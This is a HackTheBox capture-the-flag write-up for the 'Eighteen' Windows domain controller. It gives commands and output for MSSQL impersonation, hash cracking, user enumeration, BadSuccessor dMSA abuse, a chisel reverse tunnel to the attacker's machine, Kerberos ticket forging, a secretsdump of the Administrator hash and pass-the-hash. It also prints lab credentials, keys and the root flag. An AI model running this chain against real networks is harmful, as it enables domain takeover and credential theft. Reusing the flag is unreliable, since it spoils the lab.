


# Eighteen - HackTheBox Writeup
[Here are the notes I took while solving](./walkthrough)

## Initial Reconnaissance

Let's start with the classic nmap scan to see what we're dealing with:

```bash
nmap -p- -A -sV 10.10.11.95
```

The scan reveals three interesting ports:
- **Port 80**: Microsoft IIS 10.0 (HTTP)
- **Port 1433**: Microsoft SQL Server 2022
- **Port 5985**: WinRM (Microsoft HTTPAPI 2.0)

The nmap output also gives us valuable information about the domain: `eighteen.htb` with a domain controller at `DC01.eighteen.htb`. There's also a significant clock skew of about 7 hours, which will be important later for Kerberos attacks.

## Web Application Analysis

Opening up port 80 in the browser, I land on what appears to be a financial planning website with login and registration functionality.



This looks like a typical banking application with various features. My initial thought is that the vulnerability must be somewhere in these user-facing features, so I start exploring.

While testing the registration form, I immediately hit an SQL error that gets displayed directly to the user. This is a massive red flag and screams SQL injection vulnerability.



## Database Access

At this point, I remember the credentials provided in the challenge description: `kevin:iNa2we6haRj2gaw!` (honestly, I had completely forgotten about these at first - classic mistake).

Let me connect to the SQL Server using impacket:

```bash
impacket-mssqlclient 'kevin:iNa2we6haRj2gaw!'@eighteen.htb
```

```
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (kevin  guest@master)>
```

Let's enumerate the databases:

```sql
SQL (kevin  guest@master)> enum_db
name                is_trustworthy_on   
-----------------   -----------------   
master                              0   
tempdb                              0   
model                               0   
msdb                                1   
financial_planner                   0
```

The `financial_planner` database looks promising, but when I try to access it directly:

```sql
SQL (kevin  guest@master)> use financial_planner;
ERROR(DC01): Line 1: The server principal "kevin" is not able to access the database "financial_planner" under the current security context.
```

No direct access. Time to check if I can impersonate another user:

```sql
SQL (kevin  guest@master)> enum_impersonate
execute as   database   permission_name   state_desc   grantee   grantor   
----------   --------   ---------------   ----------   -------   -------   
b'LOGIN'     b''        IMPERSONATE       GRANT        kevin     appdev
```

Perfect! I can impersonate the `appdev` user. After switching contexts, I can explore the financial_planner database:

```sql
SQL (appdev  appdev@financial_planner)> SELECT name FROM sys.tables;
name          
-----------   
users         
incomes       
expenses      
allocations   
analytics     
visits

SQL (appdev  appdev@financial_planner)> SELECT * FROM users;
    id   full_name   username   email                password_hash                                                                                            is_admin   created_at   
----   ---------   --------   ------------------   ------------------------------------------------------------------------------------------------------   --------   ----------   
1002   admin       admin      admin@eighteen.htb   pbkdf2:sha256:260000$tfArqWh1qKQ0EOv2$e235919a063c6b3dcc5da384f80a78cdb7210896b9335a587f1632b16e83e32b          1   2025-10-29 05:39:03
```

## Cracking the Admin Password

I found an admin password hash, but it's using PBKDF2-SHA256 which isn't straightforward to crack. The hash format initially confused me, but after some research, I found this helpful GitHub issue: https://github.com/hashcat/hashcat/issues/3205

A user in that thread explains the format:
```
pbkdf2:sha256:260000$mi85l7RleKJWS7Pk$b60dae677bf794178d5f6259b89e73ce363ce574c75b02bc12e23e7687446f97
```

This corresponds to: `pbkdf2:sha256:[ITERATIONS]$[RAW SALT]$[HEXDIGEST]`

Someone even provided a conversion script in the thread. After converting the hash to a hashcat-friendly format and running it, I get the password:

```
sha256:600000:QU10enRlUUlHN3lBYlpJYQ==:BnOtkKC0r7GdZiM28Pzjqe3Qt7GRk3F74ozk1myIcTM=:iloveyou1
```

The password is `iloveyou1`! Now I have credentials, but for which user? Evil-WinRM requires a valid Windows user account, so I need to enumerate domain users.

## User Enumeration

Using Metasploit's MSSQL enumeration module, I brute force RIDs to discover domain users:

```
[*] 10.10.11.95:1433 -  - 46060000 EIGHTEEN\jamie.dunn
[*] 10.10.11.95:1433 -  - 47060000 EIGHTEEN\jane.smith
[*] 10.10.11.95:1433 -  - 48060000 EIGHTEEN\alice.jones
[*] 10.10.11.95:1433 -  - 49060000 EIGHTEEN\adam.scott
[*] 10.10.11.95:1433 -  - 4A060000 EIGHTEEN\bob.brown
[*] 10.10.11.95:1433 -  - 4B060000 EIGHTEEN\carol.white
[*] 10.10.11.95:1433 -  - 4C060000 EIGHTEEN\dave.green
```

After testing each user one by one (tedious, I know), I find that `adam.scott:iloveyou1` works with Evil-WinRM!

## The BadSuccessor Rabbit Hole

Once inside as adam.scott, I notice a suspicious executable named `BadSuccessor.exe` on the machine. This immediately points me toward a privilege escalation path I'm not familiar with.

The concept behind BadSuccessor is fascinating but complex: you can create a managed service account (dMSA) that "succeeds" another account. By making it succeed the Administrator, you can inherit their privileges and act on their behalf. There are tons of subtleties here that I don't fully grasp yet, but I understand enough to exploit it.

I gather the necessary tools:
- **SharpSuccessor** (https://github.com/logangoins/SharpSuccessor) - to create the dMSA
- **BadSuccessor** (https://github.com/akamai/BadSuccessor) - to test exploitation feasibility
- **Rubeus** (https://github.com/GhostPack/Rubeus) - for Kerberos ticket management

First, I check if the attack is even possible:

```powershell
./Get-BadSuccessorOUPermissions.ps1

Identity    OUs
--------    ---
EIGHTEEN\IT {OU=Staff,DC=eighteen,DC=htb}
```

Great! The IT group (which adam.scott is part of) has the necessary permissions on the Staff OU.

I try creating the dMSA and setting up the attack:

```powershell
./SharpSuccessor.exe add /path:"OU=Staff,DC=eighteen,DC=htb" /account:adam.scott /name:evil_dmsa /impersonate:Administrator
./Invoke-BadSuccessor.ps1 -Domain eighteen.htb -OU Staff -LinkTargetDN "CN=ADMINISTRATOR,CN=USERS,DC=EIGHTEEN,DC=HTB" -LowPrivUser "EIGHTEEN/adam.scott" -TargetHost "DC01.eighteen.htb"
```

But then... I get stuck. For days. This strategy just isn't working the way I expected, and I'm hitting walls at every turn.

## Getting Unstuck

After being blocked for what feels like an eternity, I break down and look for hints in a YouTube video. The hints point me in the right direction:

- Look at recent CVEs
- Port forwarding with chisel
- Check out LuemmelSec's GitHub
- Use impacket's ticket converter locally

The key exploit script is here: https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/2899fbfb55a116895552d4a8d95dc91b30ed4c31/tools/ActiveDirectory/BadSuccessor.ps1

## Port Forwarding with Chisel

The breakthrough comes when I realize I need to forward Kerberos ports using chisel to interact with the DC properly:

On my attacker machine:
```bash
chisel server -p 8000 --reverse
```

On the victim machine:
```powershell
.\chisel.exe client 10.10.14.20:8000 R:88:127.0.0.1:88
```

## The Final Attack Chain

Now with proper port forwarding in place, I execute the full attack:

```powershell
*Evil-WinRM* PS C:\Users\adam.scott\Documents> import-module ./badsuccessor.ps1
*Evil-WinRM* PS C:\Users\adam.scott\Documents> BadSuccessor -mode exploit -Path "OU=Staff,DC=EIGHTEEN,DC=HTB" -Name "bad_DMSA" -DelegatedAdmin "adam.scott" -DelegateTarget "Administrator" -domain "eighteen.htb"

Creating dMSA at: LDAP://eighteen.htb/OU=Staff,DC=EIGHTEEN,DC=HTB
Successfully created and configured dMSA 'bad_DMSA'
Object adam.scott can now impersonate Administrator
```

Now I need to forward both Kerberos (88) and LDAP (389) ports:

```powershell
.\chisel.exe client 10.10.14.20:8000 R:88:127.0.0.1:88 R:389:127.0.0.1:389
```

On my local machine, I request a TGT for adam.scott (using faketime to account for the 7-hour clock skew):

```bash
faketime 20:41 impacket-getTGT eighteen.htb/adam.scott:iloveyou1 -dc-ip 127.0.0.1
```

This creates `adam.scott.ccache`. The crucial step I kept missing was using the `--self` flag to get the service ticket:

```bash
export KRB5CCNAME="./adam.scott.ccache"
faketime 21:01 impacket-getST -impersonate 'bad_DMSA$' -dmsa -k -no-pass eighteen.htb/adam.scott -self -dc-ip 127.0.0.1
```

```
[*] Impersonating bad_DMSA$
[*] Requesting S4U2self
[*] Current keys:
[*] EncryptionTypes.aes256_cts_hmac_sha1_96:476bdd3dd14295cc12ad6e6b859226ca03c088820c3187030b1874f94c86cc4d
[*] EncryptionTypes.aes128_cts_hmac_sha1_96:59f29f2ac7d670b30ecdc30614cf044b
[*] EncryptionTypes.rc4_hmac:a30edefb23579ac6d8ac68be004dd420
[*] Saving ticket in bad_DMSA$@krbtgt_EIGHTEEN.HTB@EIGHTEEN.HTB.ccache
```

BINGO! Now I extract the Administrator's NTLM hash:

```bash
export KRB5CCNAME=./bad_DMSA\$@krbtgt_EIGHTEEN.HTB@EIGHTEEN.HTB.ccache
faketime 20:49 impacket-secretsdump -k -no-pass dc01.eighteen.htb -just-dc-user Administrator
```

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0b133be956bfaddf9cea56701affddec:::
```

Perfect! Now for the pass-the-hash attack:

```bash
evil-winrm -i dc01.eighteen.htb -u Administrator -H '0b133be956bfaddf9cea56701affddec'
```

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
312c19b051cbc05a4380331185aba197
```

## DONE!

## Reflection

This box was supposed to take me one day. It took TWO AND A HALF WEEKS. The initial foothold up to the user flag was fairly straightforward (ignoring the buggy website rabbit hole). However, not being familiar with the BadSuccessor attack, I exhausted myself chasing useless leads for several days.

Once I understood what BadSuccessor was about, I still struggled for days trying to figure out the correct SPN to target, understanding I needed the TGT first, and properly forwarding ports with chisel. 

I'm exhausted and behind on my machine schedule, but I gained a lot from this:
1. It trained my frustration resistance
2. I learned extensively about Windows AD attacks
3. I discovered chisel and ligolo-ng, which are incredible tools I'll definitely use in the future

The persistence paid off, and understanding BadSuccessor opens up a whole new attack vector in my toolkit for future engagements.
